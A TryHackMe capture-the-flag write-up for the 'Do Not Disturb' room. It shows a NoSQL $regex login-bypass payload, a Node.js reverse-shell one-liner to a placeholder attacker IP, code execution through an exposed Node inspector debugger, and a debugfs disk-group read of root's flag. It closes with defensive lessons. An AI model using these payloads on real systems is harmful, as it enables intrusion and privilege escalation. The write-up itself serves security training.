




# TryHackMe: Do Not Disturb — Writeup

**Category:** Boot2Root
**Techniques:** NoSQL Injection, Node.js RCE, Node `--inspect` Debugger Abuse, `disk` Group Privilege Escalation

Walkthrough of TryHackMe's *Do Not Disturb*: NoSQL injection auth bypass, Node.js RCE via a debug EJS feature, and privilege escalation through a locally exposed Node Inspector debugger.

---

## Attack roadmap

```text
[ Reconnaissance ]
       │
       ▼
  Port Scanning & Web Enumeration (Ports 22, 80)
       │
       ▼
[ Initial Access ]
       │
       ▼
  NoSQL Injection (JSON Payload with $regex Bypass)
       │
       ▼
  Session Cookie Hijacking -> Access /staff
       │
       ▼
  Remote Code Execution via Node.js Context -> Shell as 'poolside'
       │
       ▼
[ Privilege Escalation ]
       │
       ▼
  Internal Port Enumeration (Localhost Node Inspector on :9229)
       │
       ▼
  Node Debugger Connection -> Code Execution as 'pipelinesvc'
       │
       ▼
  Exploiting 'disk' Group Privileges with debugfs -> Root Flag
```

</details>

## Enumeration

### Port scanning & service discovery

We start with an aggressive nmap scan to discover open ports and service versions.

```bash
nmap -sS -sV 10.112.180.127
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP response header analysis

Inspecting headers using curl confirms an Express application powered by Node.js on the backend:

```bash
curl -skI http://10.112.180.127
```

```text
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 2108
ETag: W/"83c-UEYvBJXcdQCAvfgltC8uUXekb84"
Date: Wed, 05 Aug 2026 13:13:37 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

### Directory enumeration

Fuzzing backend endpoints with ffuf:

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.112.180.127/FUZZ
```

```text
/                       [Status: 200, Size: 2108, Words: 205, Lines: 39]
/logout                 [Status: 302, Size: 23, Words: 4, Lines: 1]
/staff                  [Status: 403, Size: 1547, Words: 89, Lines: 25]
```

## Exploitation

### NoSQL injection authentication bypass

Express applications handling JSON bodies often interact with NoSQL databases like NeDB or MongoDB. If input object types are not restricted to strings, attackers can pass operator objects (e.g., `$ne`, `$gt`, `$regex`) to modify query semantics.

```javascript
async function loginHandler(req, res) {
  const username = req.body.username;
  const password = req.body.password;

  let user = null;
  try {
    // Vulnerable: accepts raw objects passed via JSON body
    user = await db.findOneAsync({ username, password });
  } catch (e) {
  }

  if (!user) {
    if ((req.headers['content-type'] || '').includes('application/json')) {
      return res.status(401).json({ error: 'Invalid credentials' });
    }
    return res.status(401).send(landing('Invalid credentials.'));
  }

  req.session.user = { username: user.username, role: user.role };

  if ((req.headers['content-type'] || '').includes('application/json')) {
    return res.json({ ok: true, role: user.role });
  }
  return res.redirect('/staff');
}
```

### Exploit payload execution

By changing the `Content-Type` header to `application/json`, we submit regular expression operators matching any non-empty field:

```json
{
  "username": { "$regex": ".*" },
  "password": { "$regex": ".*" }
}
```



This returns a valid administrative session cookie (`connect.sid`).

### Session hijacking & remote code execution



Using the intercepted session cookie, we navigate directly to `/staff`.

Inside the staff portal, an internal feature executes dynamic JavaScript code in the server process context via EJS. We exploit this function execution vector to spawn an interactive reverse shell using Node's `child_process` module, since `require` is blocked directly:

```javascript
Function('return process')().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"')
```



Catching the reverse connection on our netcat listener confirms the shell as `poolside`.



### Post-exploitation & user flag

After landing a shell as `poolside`, we locate the user flag in `/home/poolside`:

```bash
poolside@tryhackme-2404:~$ cat /home/poolside/user.txt
THM{w4rm_s3ss10n_h1j4ck3d}
```

## Privilege escalation

### Local socket enumeration

Inspecting open internal ports using `ss`:

```bash
ss -tulpn
```

```text
Netid State  Recv-Q Send-Q       Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      511              127.0.0.1:9229      0.0.0.0:*
tcp   LISTEN 1      511                      *:80              *:*     users:(("node",pid=597,fd=21))
```

Port 9229 is open on localhost. This port is used by standard V8 / Node.js Inspector services for interactive debugging.

### Investigating active services

Checking running processes reveals a telemetry processor running under the `pipelinesvc` user with debugging enabled:

```bash
ps aux | grep processor
```

```text
pipelin+   596  0.0  2.9 1120428 57400 ? Ssl 12:57 0:01 /usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

Querying the inspector's JSON metadata endpoint:

```bash
curl http://127.0.0.1:9229/json/list
```

```json
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=127.0.0.1:9229/d873ad9e-1c77-4ad0-96d5-652b8027cda3",
  "id": "d873ad9e-1c77-4ad0-96d5-652b8027cda3",
  "title": "processor.js",
  "type": "node",
  "url": "file:///opt/pipelinesvc/telemetry/processor.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/d873ad9e-1c77-4ad0-96d5-652b8027cda3"
} ]
```

### Abusing Node.js debugger connection

We attach directly to the local debugging port using `node inspect`:

```bash
node inspect 127.0.0.1:9229
```

Switch into the dynamic REPL interface:

```text
debug> repl
Press Ctrl+C to leave debug repl
```

Executing system calls through Node's `child_process` inside the debugger session:

```javascript
> process.mainModule.require('child_process').execSync('id').toString()
'uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)\n'
```

### Disk group abuse to root flag

#### Block device enumeration

Enumerating available storage drives:

```javascript
> process.mainModule.require('child_process').execSync('lsblk').toString()
'NAME        MAJ:MIN RM   SIZE RO TYPE MOUNTPOINTS\n' +
  'nvme0n1     259:1    0    20G  0 disk \n' +
  '└─nvme0n1p1 259:2    0    20G  0 part /\n'
```

#### File system extraction via debugfs

We query the root partition `/dev/nvme0n1p1` directly with `/usr/sbin/debugfs` to read `/root/root.txt`:

```javascript
> process.mainModule.require('child_process').execSync('/usr/sbin/debugfs -R "cat /root/root.txt" /dev/nvme0n1p1', {encoding: 'utf8'}).toString()
'THM{r4w_d1sk_4cc3ss_w4s_t00_much}\n'
```

## Lessons & takeaways

- **Type-sanitize input:** always validate or cast JSON payloads to strings before passing them directly into NoSQL query handlers.
- **Isolate debug endpoints:** never launch Node applications in production with the `--inspect` flag bound to accessible interfaces without explicit authentication controls.
- **Audit administrative Linux groups:** membership in secondary system groups such as `disk`, `docker`, or `lxd` provides indirect full host compromise capabilities.
